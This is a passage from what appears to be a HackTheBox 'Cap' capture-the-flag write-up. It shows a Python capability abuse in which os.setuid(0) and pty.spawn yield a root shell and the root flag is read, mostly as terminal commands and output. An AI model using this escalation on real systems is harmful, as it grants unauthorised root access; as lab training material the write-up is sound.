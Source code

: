     
    
    nathan@cap:/var/www/html$ python3
    Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>
    

I can use a familiar line to get a shell:

    
    
    >>> import pty
    >>> pty.spawn("bash")
    nathan@cap:/var/www/html$ id
    uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
    

That’s as expected. I’ll exit:

    
    
    nathan@cap:/var/www/html$ exit
    0
    >>>
    

Back at the Python prompt, I’ll set the userid for this process to root:

    
    
    >>> import os
    >>> os.setuid(0)
    

I can try to set the group id, but I don’t have that permission:

    
    
    >>> os.setgid(0)
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
    PermissionError: [Errno 1] Operation not permitted
    

There is a `cap_setgid` capability as well that was not set here.

Now using `pty` to get a shell again gives a shell as the root user:

    
    
    >>> pty.spawn("bash")
    root@cap:/var/www/html# id
    uid=0(root) gid=1001(nathan) groups=1001(nathan)
    

From there I can grab `root.txt`:

    
    
    root@cap:/var/www/html# cd /root/
    root@cap:/root# cat root.txt
    f766c793************************
    

[](/2021/10/02/htb-cap.html)

